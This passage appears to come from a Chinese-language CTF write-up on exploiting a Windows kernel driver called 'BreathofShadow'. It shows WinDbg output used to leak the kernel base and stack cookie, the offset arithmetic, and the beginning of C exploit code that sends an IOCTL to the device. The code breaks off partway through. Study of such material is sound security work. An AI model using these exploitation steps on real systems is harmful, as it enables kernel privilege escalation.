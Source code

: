成功畫面
![image](https://hackmd.io/_uploads/BkA7t60YJg.png)

### leak kernel base and stack cookie
接下來要 leak kernel base 來用上面的 gadget，以及要打 Buffer overflow 蓋 ret address 需要 leak stack cookie，在 overflow 時蓋回去才不會 crash，這邊可以用上述提到的 information leak 洞

先看 kernel base 在哪
```
kd> lm m nt
Browse full module list
start             end                 module name
fffff800`7ce00000 fffff800`7e24f000   nt         (pdb symbols)          c:\symbols\ntkrnlmp.pdb\953A8DE880B0818C32DA2DEC1D79C2D91\ntkrnlmp.pdb

kd> dq rdx L50
ffff8104`0d392540  f41b3021`93062445 00000000`00000000
ffff8104`0d392550  00000000`00000000 00000000`00000000
ffff8104`0d392560  00000000`00000000 00000000`00000000
ffff8104`0d392570  00000000`00000000 00000000`00000000
ffff8104`0d392580  00000000`00000000 00000000`00000000
ffff8104`0d392590  00000000`00000000 00000000`00000000
ffff8104`0d3925a0  00000000`00000000 00000000`00000000
ffff8104`0d3925b0  00000000`00000000 00000000`00000000
ffff8104`0d3925c0  00000000`00000000 00000000`00000000
ffff8104`0d3925d0  00000000`00000000 00000000`00000000
ffff8104`0d3925e0  00000000`00000000 00000000`00000000
ffff8104`0d3925f0  00000000`00000000 00000000`00000000
ffff8104`0d392600  00000000`00000000 00000000`00000000
ffff8104`0d392610  00000000`00000000 00000000`00000000
ffff8104`0d392620  00000000`00000000 00000000`00000000
ffff8104`0d392630  00000000`00000000 00000000`00000000
ffff8104`0d392640  ffffce78`298e4f82 fffff800`7d97b3c9
ffff8104`0d392650  00000000`00000001 00000000`00000000
```
從我們印出的位置開始看，可以看到 `ffff8104 0d392648` 上有 nt kernel base (stack_ptr + 0x108)
扣掉 offset `0xb7b3c9` 就是 kernel base 了

```c
#include <Windows.h>
#include <stdio.h>
#include <stdlib.h>

#define DeVioctlCode 0x9C40240B
#define DeviceName L"\\\\.\\BreathofShadow"

void hexdump(const void* data, size_t size)
{
    const unsigned char* byteData = (const unsigned char*)data;
    size_t i, j;

    for (i = 0; i < size; i += 16) {
        printf("%08zx  ", i);

        for (j = 0; j < 16; ++j) {
            if (i + j < size) {
                printf("%02x ", byteData[i + j]);
            } else {
                printf("   ");
            }
        }

        printf(" |");
        for (j = 0; j < 16; ++j) {
```